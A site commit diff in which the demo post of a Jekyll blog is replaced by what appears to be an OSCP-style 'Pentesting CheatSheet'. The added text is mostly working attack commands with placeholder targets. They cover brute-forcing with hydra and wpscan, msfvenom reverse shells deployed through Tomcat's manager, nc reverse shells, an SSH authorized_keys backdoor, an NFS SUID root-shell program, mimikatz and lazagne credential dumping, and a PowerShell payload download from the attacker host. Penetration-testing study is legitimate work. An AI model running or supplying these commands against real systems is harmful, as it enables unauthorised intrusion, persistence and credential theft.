

Before and after one commit to EmiratiCoder/emiraticoder.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1252 px high. Shown: the top 1239 px of the window at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
Update 2020-02-28-test-markdown.md

````diff
--- a/_posts/2020-02-28-test-markdown.md
+++ b/_posts/2020-02-28-test-markdown.md
@@ -1,78 +1,439 @@
 ---
 layout: post
-title: Sample blog post
+title: Pentesting CheatSheet
 subtitle: Each post also has a subtitle
 gh-repo: daattali/beautiful-jekyll
-gh-badge: [star, fork, follow]
-tags: [test]
+gh-badge:
+  - star
+  - fork
+  - follow
+tags:
+  - test
 comments: true
+published: true
 ---
+# Enumeration
 
-This is a demo post to show you how to write blog posts with markdown.  I strongly encourage you to [take 5 minutes to learn how to write in markdown](https://markdowntutorial.com/) - it'll teach you how to transform regular text into bold/italics/headings/tables/etc.
+## NMAP
 
-**Here is some bold text**
+- TCP
 
-## Here is a secondary heading
+```bash
+sudo -sS -sC -sV -oA <NAME>.tcp <IP> -v
+```
 
-Here's a useless table:
+- UDP
 
-| Number | Next number | Previous number |
-| :------ |:--- | :--- |
-| Five | Six | Four |
-| Ten | Eleven | Nine |
-| Seven | Eight | Six |
-| Two | Three | One |
+```bash
+sudo -sU -sS -sC -sV -oA <NAME>.udp <IP> -v
+```
+
+## HTTP/HTTPS 80/433
+- Directory bruteforcing
+
+```bash
+#option 1
+dirbuster
+
+#option 2
+gobuster -u <URL> -w <wordlist>
+```
+
+- Wordpress
+
+`Enumerating for users`
+```bash
+wpscan --url <URL> --enumerate u
+```
+
+`Cracking the password of a known user`
+```bash
+wpscan –url <url> –passwords rockyou.txt –usernames <username> –max-threads 50
+```
+
+- Tomcat
+
+`Finding out username and passowrd`
+```bash
+hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -f <IP> http-get /manager/html -vV -u
+```
+
+- Tomcat Panel Remote Code Execution
+
+```bash
+# Generate payload
+msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
+
+# Upload payload
+Tomcat6 :
+wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -
+
+Tomcat7 and above :
+curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'
+
+# Listener
+nc -lvp <PORT>
+
+# Execute payload
+curl http://<IP>:8080/shell/
+```
+
+- HTTP bruteforce basic authentication
+
+`Attacking http-get/http-post login page `
+```bash
+hydra -l <USER> -V -P <PASSWORDS_LIST> -s 80 -f <IP> http-get /<URL_ENDPOINT>/ -t 15
+```
+
+- HTTP GET request
+
+```bash
+hydra <IP> -V -l <USER> -P <PASSWORDS_LIST> http-get-form  "/login/:username=^USER^&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" -t <THREADS_NUMBER>
+```
+
+- HTTP POST request
+
+```bash
+hydra -l <USER> -P <PASSWORDS_LIST> <IP> http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t <THREADS_NUMBER>
+```
+
+- ffuf
+
+```bash
+ffuf -u ‘http://<ip_address>/path/to_file.php?FUZZ=/etc/passwd’ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -fs 0
+```
+
+- Uploading files using curl
+
+```bash
+#Do this to check if you can upload files
+curl -u "username:password" -X PUT http://10.10.10.10/path/to/directory/listing
+
+#If it worked upload a reverse shell using CADAVER
+cadaver <url>/uploads/
+Username:
+password:
+PUT php-reverse-shell.php
+```
+
+- Nikto Vulnerability Scanning
+
+```bash
+nikto -h <url>
+```
 
 
-How about a yummy crepe?
+## FTP 21
 
-![Crepe](https://s3-media3.fl.yelpcdn.com/bphoto/cQ1Yoa75m2yUFFbY2xwuqw/348s.jpg)
+- BruteForcing
 
-It can also be centered!
+```bash
+hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ftp://<IP> -u -vV
+```
+- Downloading a file
 
-![Crepe](https://s3-media3.fl.yelpcdn.com/bphoto/cQ1Yoa75m2yUFFbY2xwuqw/348s.jpg){: .mx-auto.d-block :}
+```bash
+# Downloading a file
+ftp <IP>
+passive
+binary
+get <File>
+```
+- Uploading a file
 
-Here's a code chunk:
-
-~~~
-var foo = function(x) {
-  return(x + 5);
-}
-foo(3)
-~~~
-
-And here is the same code with syntax highlighting:
-
-```javascript
-var foo = function(x) {
-  return(x + 5);
-}
-foo(3)
+```bash
+# Uploading a file
+ftp <IP>
+passive
+binary
+get <File>
 ```
 
-And here is the same code yet again but with line numbers:
+## SSH 22
 
-{% highlight javascript linenos %}
-var foo = function(x) {
-  return(x + 5);
+- Brute Forcing
+
+```bash
+hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
+```
+
+```bash
+nmap -p 22 --script ssh-brute --script-args userdb=<users.txt> <target_IP>
+```
+
+```bash
+#using msfconsole
+
+use auxiliary/scanner/ssh/ssh_login
+set RHOSTS <target ip>
+set USERPASS_FILE /usr/share/wordlists/rockyou.txt
+set STOP_ON_SUCCESS true
+set verbose true
+exploit
+```
+
+- Backdoor - POST EXPLOITATION
+
+```bash
+#Attacker
+ssh-keygen -f <FILENAME>
+chmod 600 <FILENAME>
+cat <FILENAME>.pub -> copy
+
+# Victim
+echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys
+
+# Connect
+ssh -i <FILENAME> <USER>@<IP>
+ ```
+
+## DNS 53
+
+```bash
+dnsenum <DOMAIN>
+```
+```bash
+dnsrecon -d <DOMAIN>
+```
+
+## SMB 445
+
+```bash
+smbclient -L <IP>
+```
+- Manual testing
+
+```bash
+smbmap -H <IP>
+```
+
+```bash
+enum4linux -a <IP>
+```
+
+- Finding SMB version
+
+```bash
+msf> use auxiliary/scanner/smb/smb_version
+msf> options
+msf> set rhosts <target_ip>
+msf> run
+```
+
+# Password cracking
+
+- Linux password cracking
+
+```bash
+hashcat -m 1800 -a 0 hash.txt rockyou.txt
+hashcat -m 1800 -a 0 hash.txt rockyou.txt -r OneRuleToRuleThemAll.rule
+```
+
+- Windows password cracking
+
+```bash
+hashcat -m 1000 -a 0 hash.txt rockyou.txt
+hashcat -m 1000 -a 0 hash.txt rockyou.txt -r OneRuleToRuleThemAll.rule
+```
+
+- John the ripper
+
+```bash
+john --wordlist=<PASSWORDS_LIST> hash.txt
+```
+
+# privilege escalation
+
+### Linux privilege escalation
+- Automated scripts
+
+```bash
+linPEAS.sh
+LinEnum.sh
+linuxprivchecker.py
+```
+
+- spawning interactive shell and setting env
+
+```bash
+python -c 'import pty;pty.spawn("/bin/bash");'
+ctrl z
+echo $TERM
+stty -a
+stty raw -echo
+fg
+
+export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH
+export TERM=xterm256-color
+export SHELL=bash
+
+stty rows \<> colums \<>
+```
+
+- restricted bash
+
+```bash
+perl -e 'exec "/bin/sh";'
+/bin/sh -i
+exec "/bin/sh";
+echo os.system('/bin/bash')
+/bin/sh -i
+ssh user@$ip nc $localip 4444 -e /bin/sh
+export TERM=linux
+```
+
+- check what can be run as sudo
+
+```bash
+sudo -l
+```
+
+- Check OS and kernel
+
+```bash
+cat /etc/issue
+cat /etc/*-release
+cat /etc/lsb-release      # Debian based
+cat /etc/redhat-release   # Redhat base
+
+cat /proc/version
+uname -a
+uname -mrs
+rpm -q kernel
+dmesg | grep Linux
+ls /boot | grep vmlinuz-
+```
+
+- check environment variables
+
+```bash
+cat /etc/profile
+cat /etc/bashrc
+cat ~/.bash_profile
+cat ~/.bashrc
+cat ~/.bash_logout
+env
+set
+
+# Is there a printer
+lpstat -a
+```
+
+- check any restrictions on folders
+
+```bash
+mount -l >> any no exec or no suid?
+
+Check any unmounted drives
+cat /etc/fstab
+```
+
+- Running applications and services
+
+```bash
+ps aux
+ps -ef
+top
+cat /etc/services
+
+ps aux | grep root
+ps -ef | grep root
+```
+
+- Find SUID
+
+```bash
+find / -type f -perm -04000 -ls 2>/dev/null
+```
+
+- Find capabilities
+
+```bash
+getcap -r / 2>/dev/null
+```
+
+- Find Crontab
+
+```bash
+cat /etc/crontab
+```
+
+- Find NFS
+
+```bash
+#NFS are stored in here
+cat /etc/exports
+
+#enumerating mountable shares of victim
+showmount -e <IP>
+
+#mount one of the no_root_squash shares to attacking machine
+mkdir /tmp/anynameyouwant
+mount -o rw <IP>:/nameofshare /tmp/anynameyouwant
+
+#after that we create nfs.c using nano in attacker machine
+int main(){
+setgid(0);
+setuid(0);
+system("/bin/bash");
+return 0;
 }
-foo(3)
-{% endhighlight %}
+#now we compile the c file
+gcc nfs.c -o nfs -w
 
-## Boxes
-You can add notification, warning and error boxes like this:
+#add S=SUID permission
+chmod +s nfs
 
-### Notification
+# GO TO VICTIM MACHINE AND NAVIGATE TO SHARE AND EXECUTE THE PROGRAM
+```
 
-{: .box-note}
-**Note:** This is a notification box.
+- TMUX
 
-### Warning
+```bash
+ps aux | grep tmux #To find the tmux folder where sessions are stored in
+export $TERM = xterm #stabilizing the shell
+tmux -S attach <name_of_session> #Make sure you are in the same directory where the session is stored in
+```
 
-{: .box-warning}
-**Warning:** This is a warning box.
+### Windows privelege escalation
 
-### Error
+- automated scripts
 
-{: .box-error}
-**Error:** This is an error box.
+```bash
+winPEAS.exe
+windows-privesc-check2.exe
+powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"
+```
+
+- POST exploitation
+
+```bash
+lazagne.exe all
+SharpWeb.exe
+mimikatz.exe
+```
+
+- Getting a shell
+
+```bash
+# Attacker
+msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
+sudo python -m SimpleHTTPServer 80
+sudo nc -lvp <PORT>
+
+# Victim
+cd C:\Program Files\Autorun Program\
+powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', '.\program.exe')
+```
+
+
+**useful links**
+1. https://www.revshells.com/
+2. https://gtfobins.github.io/
+3. https://pentest.ws/
+4. https://www.exploit-db.com/
+5. https://github.com/swisskyrepo/PayloadsAllTheThings
+6. https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.htmlhttps://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html
+
+
+`Go to prose.io to Edit this cheatsheet`
````
